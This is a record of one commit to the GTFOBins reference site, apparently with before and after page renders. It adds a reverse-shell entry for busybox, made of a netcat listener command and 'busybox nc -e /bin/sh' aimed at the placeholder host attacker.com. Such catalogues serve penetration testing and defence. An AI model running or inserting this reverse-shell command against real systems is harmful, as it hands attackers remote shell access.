

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/busybox.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Added reverse shell functionality to busybox if "busybox nc" is available
Co-authored-by: Andrea Cardaci <cyrus.and@gmail.com>

```diff
--- a/_gtfobins/busybox.md
+++ b/_gtfobins/busybox.md
@@ -21,4 +21,10 @@ functions:
       code: "./busybox sh"
   sudo:
     - code: sudo busybox sh
+  reverse-shell:
+    - description: Run `nc -lvp 12345` on the attacker box to receive the shell.
+      code: |
+        RHOST=attacker.com
+        RPORT=12345
+        busybox nc -e /bin/sh $RHOST $RPORT
 ---
```
